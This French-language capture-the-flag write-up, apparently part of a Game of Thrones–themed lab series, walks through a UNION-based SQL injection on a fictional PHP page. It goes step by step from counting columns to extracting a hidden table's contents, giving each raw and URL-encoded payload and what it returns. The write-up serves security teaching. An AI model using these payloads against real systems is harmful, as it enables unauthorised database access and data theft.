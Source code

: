 ```yaml
---
title: 3 - Injection SQL UNION
next: "/write-ups/wu4"
prev: "/write-ups/wu2"
---
```


# 🗂️ Injection SQL (CWE-89) UNION

## 🎯 Objectif
Grâce au passe récupéré, John infiltre Castral-Roc et découvre un livre verrouillé répertoriant les armes Lannister. Grâce à une injection SQL Union, il y accède et trouve la localisation du feu grégeois, une menace pour la flotte des Stark.

**Flag attendu :** ville:emplacement

---

## ⚙️ Environnement
- **Prérequis :** Etre connecté avec le cookie de session du garde

---

## 🚀 Étape 1 : Déterminer le nombre de colonne de la bdd : 

```sql
' ORDER BY 1 --
```

Ne pas oublier d'encoder l'url : 
**?member=%27+ORDER+BY+1+--+**
Donc :
http://castral-roc.lannisport.south/famillelannister.php?member=%27+ORDER+BY+1+--+

On incrémente le nombre jusqu'a obtenir une erreur, dans notre cas lorsque l'on rentre 3 nous otenons une erreur, ansi le nombre de colonne est le dernier chiffre valide donc 2.

---

## Étape 2 : Identifier les colonnes visibles

```sql
' UNION SELECT 1,2 --
```

Une fois l'url encodée : 
http://castral-roc.lannisport.south/famillelannister.php?member=%27+UNION+SELECT+1,2+--+

Ici si nous la bdd nous retourne 1:2 cela indique que nous pouvons exploiter les colonnes 

---

## Étape 3 : Déterminer le nom des tables de la bdd 

```sql
' UNION SELECT table_name,table_schema FROM information_schema.tables --
```

Encodé : 
http://castral-roc.lannisport.south/famillelannister.php?member=%27+UNION+SELECT+table_name,table_schema+FROM+information_schema.tables+--+

On trouve ici : 

**battle_ressources : lannisport_db**

**lannister_family : lannisport_db**

---

## Étape 4 : Déterminer le nom des colonnes de la table battle_ressources 

```sql
' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name='battle_ressources' --
```

http://castral-roc.lannisport.south/famillelannister.php?member='+UNION+SELECT+column_name,data_type+FROM+information_schema.columns+WHERE+table_name='battle_ressources'+--+

On trouve : 

**emplacement : varchar**

**id : int**

**type : varchar**

**ville : varchar**

---

## Étape 5 : Extraire l'emplacement du Feu Grégoire
```sql
' UNION SELECT type, emplacement FROM battle_ressources -- 
```

http://castral-roc.lannisport.south/famillelannister.php?member='+UNION+SELECT+type,+emplacement+FROM+battle_ressources+--+

On trouve alors : 

Feu Grégeois : Castral Roc Cave secrète sous la forteresse
